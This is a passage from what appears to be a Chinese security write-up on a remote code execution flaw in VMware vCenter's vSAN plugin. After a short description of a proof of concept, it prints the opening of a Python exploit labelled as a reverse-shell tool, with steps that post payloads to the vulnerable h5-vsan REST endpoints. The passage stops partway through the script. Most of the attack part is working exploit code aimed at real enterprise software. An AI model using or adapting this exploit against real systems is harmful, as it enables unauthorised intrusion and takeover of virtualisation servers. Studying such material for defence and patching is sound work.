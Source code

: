 ![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgX5e53c1DFS646gic8h6IcLXzz76Xb9nJrFpPL4C6m03u83sSOqlwnewFic9LHiacicGGMFNxTqybKUA/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgX5e53c1DFS646gic8h6IcLeSIO0tqY40aiackRuQ0qQu97iasN8Q8A6icuaTjPEJnboEkfpAicMRtYxQ/640?wx_fmt=png)  

该 POC 创建了一个恶意 xml 文件，打包成 zip，并 base64 后通过特定格式发送，返回包含 result 字段，及证明存在该漏洞  

2、使用 EXP 反弹 Shell

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
"""
@Author: r0cky
@Time: 2021/6/3-16:57
"""

import sys
from urllib.parse import urlparse

import json
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies={'https':'http://127.0.0.1:8080'}


def banner():
    print("""
==============================================================
         _____           _              _____   _____ ______ 
        / ____|         | |            |  __ \ / ____|  ____|
 __   _| |     ___ _ __ | |_ ___ _ __  | |__) | |    | |__   
 \ \ / / |    / _ \ '_ \| __/ _ \ '__| |  _  /| |    |  __|  
  \ V /| |___|  __/ | | | ||  __/ |    | | \ \| |____| |____ 
   \_/  \_____\___|_| |_|\__\___|_|    |_|  \_\\_____|______|

                              Powered by r0cky Team ZionLab
==============================================================
    """)


def payload1(url):
    print ("[*] Step 1 setTargetObject to null ...")

    target = url + "/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setTargetObject"

    data = {"methodInput":[None]}

    r = requests.post(target, data=json.dumps(data), headers=headers, verify=False, proxies=proxies)

    if "result" in r.json():
        payload2(url)
    else:
        print ("[-] send payload failed1.")


def payload2(url):
    print("[*] Step 2 setStaticMethod to payload ...")

    target = url + "/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setStaticMethod"
```